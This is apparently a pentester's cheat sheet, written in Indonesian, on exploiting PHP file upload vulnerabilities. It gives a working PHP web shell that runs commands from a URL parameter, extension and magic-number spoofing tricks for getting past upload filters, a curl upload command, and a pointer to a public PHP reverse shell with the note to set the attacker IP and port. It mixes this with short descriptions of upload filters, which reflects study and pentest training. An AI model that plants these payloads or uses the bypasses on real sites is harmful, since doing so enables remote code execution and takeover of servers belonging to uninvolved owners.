

# File Upload Vulnerability
type: #offensive #fileupload  #rce 
techniques: #rce #reverseshell #exfiltration 
target: #php 

## File Upload
Jika ditangani dengan buruk, bisa membuka vulnerability, contohnya RCE, deface konten, dan menginjeksi web pages sehingga membuka celah XSS dan CSRF.

## Reconnaissance
Classic PHP payload: `recon.php`
```php
<?php
	echo system($_GET["cmd"])
?>
```
Jalankan dengan https://website.com/upload/location/recon.php?cmd=whoami

## Filter dan Validasi
Filter dan validasi dapat dilakukan secara client-side maupun server-side. 

**Extension validation**: Validasi berdasarkan ekstensi file. Windows menggunakan extension validation untuk mengetahui jenis file.
```sh
recon.jpg

```

**MIME validation**: dengan menggunakan MIME (Multipurpose Internet Mail Extension) sebagai identifier dari file pada header. Formatnya adalah `<type>/<subtype>`


**Magic number validation**: dengan menggunakan magic number dari file, setiap jenis file memiliki magic numbernya sendiri. Linux/Unix menggunakan magic number untuk melakukan validasi jenis file. Contohnya:
```shell-session
89 50 4E 47 0D 0A 1A 0A : PNG
```

**File length filtering**: filter berdasarkan ukuran dari file.

**File name filtering**: tiap file yang terupload pada server harus unik. Biasanya dilakukan dengan memberikan nilai random di belakang nama file. Nama file juga harus disanitasi saat upload agar mencegah "bad characters" yang dapat menyebabkan masalah pada filesystem saat diupload. Contoh:
```shell-session
; 
unicode character
```

**File content filtering** melakukan scan pada seluruh konten dari file yang terupload untuk mencegah spoofing apda extension, MIME type, dan magic number.

## Bypass
File extension
```shell-session
recon.jpg.php
.php, .phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar
```

Menggunakan Burp Suite dan intercept response. 
> Tips:
> Apabila ingin bypass client-side security, setting burp suite untuk menangkap javascript (di bagian intercept > option).
> Gunakan ctrl+f5 untuk mereset cache pada browser, sehingga tidak muncul status code 304 (not modified). Hal ini berguna untuk menangkap dan memodifikasi JavaScript yang akan diambil oleh browser.


==(Untested)== Menggunakan curl, dengan input parameter form id: `filename`
https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76
```sh
curl -F 'img_avatar=@/home/username/Documents/hello.txt' http://website.com/upload
```

Magic number
https://en.wikipedia.org/wiki/List_of_file_signatures
```php
AAAA
<?php
	// payload
?>
```
kemudian buka file dengan hexeditor, ganti hex AAAA `41 41 41 41` menjadi magic number pada file JPEG: `FF D8 FF DB` 
```sh
file recon.php
```

## Exploitation
Reverse shell: revshell.php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
atau di `/usr/share/webshells` pada Kali Linux
Ganti IP address and port
